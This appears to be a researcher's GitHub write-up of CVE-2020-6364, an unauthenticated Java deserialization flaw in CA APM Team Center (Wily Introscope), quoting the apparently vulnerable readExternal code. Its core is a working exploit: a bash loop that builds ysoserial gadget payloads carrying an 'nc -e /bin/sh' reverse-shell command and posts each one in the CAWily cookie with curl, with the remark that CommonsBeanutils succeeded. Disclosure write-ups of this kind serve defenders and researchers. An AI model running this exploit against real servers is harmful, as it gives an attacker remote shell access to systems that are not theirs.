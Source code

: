 # CVE-2020-6364
Remote code execution in CA APM Team Center (Wily Introscope).

[Original advisory](https://github.com/Onapsis/vulnerability_advisories/blob/main/2021/CVE-2020-6364/ONAPSIS-2021-0008-OS_Command_Injection_in_CA_Introscope_Enterprise_Manager.md)

A deserialization vulnerability in CA APM Team Center leads to unauthenticated remote code execution on the server.

When authenticating to the server a cookie is returned that starts with the infamous ```rO0``` string indicating a base64-encoded serialized object:
![](./cookie.png)

Although I haven't fully traced the problem statically, this probably is the vulnerable code:
```java
public class HttpRequestHeaderInfo implements Externalizable {
  public void readExternal(ObjectInput in) throws IOException, ClassNotFoundException {

    in.readInt();
    int numMapEntries = in.readInt();
    this.fRequestParameterMap = (numMapEntries == 0) ? Collections.EMPTY_MAP : new HashMap(numMapEntries);

    for (int i = 0; i < numMapEntries; i++) {
      this.fRequestParameterMap.put(in.readUTF(), in.readObject());
    }

    int numCookies = in.readInt();
    this.fCookies = (numCookies == 0) ? kNoCookies : new Cookie[numCookies];

    for (int j = 0; j < this.fCookies.length; j++) {
      this.fCookies[j] = new Cookie((String)in.readObject(), (String)in.readObject());
    }
  }
}
```

Notice that the parameter map and the cookie are deserialized using ```readObject()``` from the user input.

This is trivially exploited by identifying a suitable gadget in a for loop:
```bash
for gadget in AspectJWeaver BeanShell1 C3P0 Click1 Clojure CommonsBeanutils1 CommonsCollections1 CommonsCollections2 CommonsCollections3 CommonsCollections4 CommonsCollections5 CommonsCollections6 CommonsCollections7 FileUpload1 Groovy1 Hibernate1 Hibernate2 JBossInterceptors1 JRMPClient JRMPListener JSON1 JavassistWeld1 Jdk7u21 Jython1 MozillaRhino1 MozillaRhino2 Myfaces1 Myfaces2 ROME Spring1 Spring2 URLDNS Vaadin1 Wicket1
do
    java -jar ./ysoserial-0.0.6-SNAPSHOT-all.jar $gadget "nc -e /bin/sh ..." | base64 -w0 > cookie
    payload=$(cat cookie)
    curl -s -k 'https://remoteserver/' -X POST -H "Cookie: CAWily=$payload"
done
```

The only payload that produced remote code execution for me was CommonsBeanutils. The embedded JAR is ```org.apache.commons_beanutils_1.9.2.1.jar``` and does indeed include a vulnerable gadget according to the [maven repository](https://mvnrepository.com/artifact/commons-beanutils/commons-beanutils/1.9.2).

Thanks
======
Obligatory thanks to a special someone who had me double check the header.
